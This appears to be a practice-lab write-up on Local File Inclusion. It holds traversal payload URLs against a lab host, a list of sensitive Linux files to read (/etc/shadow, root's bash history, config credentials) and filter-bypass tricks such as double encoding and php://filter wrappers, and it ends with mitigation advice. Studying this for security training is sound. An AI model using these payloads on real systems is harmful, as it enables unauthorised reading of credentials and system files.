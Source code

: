 # Local File Inclusion (LFI) Vulnerability Testing

## What is LFI?

**Local File Inclusion (LFI)** is a vulnerability that allows an attacker to include files on a server through the web browser. This typically occurs when the web application uses user input to construct paths to files and doesn't properly sanitize it.

## Testing Endpoint


**Target URL:**  
`https://defhawk.com/battleground/practice-lab/all-categories/web/enumerate`

`http://web.labs.defhawk.com:12000/`

**Vulnerable Parameter:**  
`sample`

## How the Vulnerability Works

Suppose the code in the backend looks like:

```php
<?php 
  include($_GET['sample']); 
?>
````

If no validation is done on the `sample` parameter, then supplying a path like `/etc/passwd` or using directory traversal like `../../../../etc/passwd` may include unintended files from the server.

## Common Sensitive Linux Files to Target

| File                          | Description                                           |
| ----------------------------- | ----------------------------------------------------- |
| `/etc/passwd`                 | Lists user accounts on the system                     |
| `/etc/shadow`                 | Contains hashed user passwords (requires root access) |
| `/var/log/apache2/access.log` | Apache access logs                                    |
| `/proc/self/environ`          | Environment variables including `PATH`, etc.          |
| `/etc/hosts`                  | Local DNS records                                     |
| `/etc/hostname`               | Server’s hostname                                     |
| `/root/.bash_history`         | Command history of root                               |
| `/var/www/html/config.php`    | Possible web app credentials                          |

> Reference: [Linux Sensitive Files - InfoSecWarrior](https://github.com/InfoSecWarrior/Offensive-Payloads/blob/main/Linux-Sensitive-Files.txt)

## Relative vs Absolute Paths

* **Absolute Path**: Direct path from root (e.g., `/etc/passwd`)
* **Relative Path**: Based on current directory (e.g., `../../../../etc/passwd`)

Understanding the relative path helps in crafting traversal payloads depending on where the vulnerable file (`app.php`) is located. In our case:

```
/var/www/html/app.php
```

## 🎯 Payload Testing

### ❌ Payload 1 – No Output

```
http://web.labs.defhawk.com:12000/search?term=/etc/passwd&sample=Sample1
```

### ❌ Payload 2 – No Output

```
http://web.labs.defhawk.com:12000/search?term=/etc/passwd&sample=/etc/passwd
```

### ❌ Payload 3 – No Output

```
http://web.labs.defhawk.com:12000/search?term=../../../etc/passwd&sample=../../../etc/passwd
```

### ✅ Payload 4 – Successful File Inclusion

```
http://web.labs.defhawk.com:12000/search?term=.././../../../../../../etc/passwd&sample=../../../../../../../etc/passwd
http://web.labs.defhawk.com:12000/search?term=../../../../../etc/passwd&sample=../../../../etc/passwd
http://web.labs.defhawk.com:12000/search?term=test&sample=../../../../../etc/passwd
```

This confirms the server includes files based on user input in the `sample` parameter.

## 🔐 Tips for Bypassing Filters

* Use mixed traversal like `.././../`
* Use URL encoding:

  * `%2e` → `.`
  * `%2f` → `/`
  * Example: `..%2f..%2f..%2fetc%2fpasswd`
* Use double URL encoding to evade WAF:

  * `%252e%252e%252f`

## 🔁 Bypassing LFI Protections

If basic LFI payloads don’t work, try these:

| Technique                                 | Example                                                |
| ----------------------------------------- | ------------------------------------------------------ |
| Null byte injection                       | `/etc/passwd%00` (for older PHP versions)              |
| Filter bypass                             | `....//....//etc/passwd`                               |
| Base64 wrappers (if PHP wrappers enabled) | `php://filter/convert.base64-encode/resource=filename` |


## Reference Links

* OWASP WSTG: [Testing for LFI](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion)
* Linux Sensitive Files List: [GitHub - InfoSecWarrior](https://github.com/InfoSecWarrior/Offensive-Payloads/blob/main/Linux-Sensitive-Files.txt)

## Mitigation

To prevent LFI:

* Whitelist file paths or use file ID mapping.
* Avoid including files based on user input.
* Validate and sanitize user inputs.
* Disable dangerous PHP functions like `include`, `require`, `fopen` if not needed.
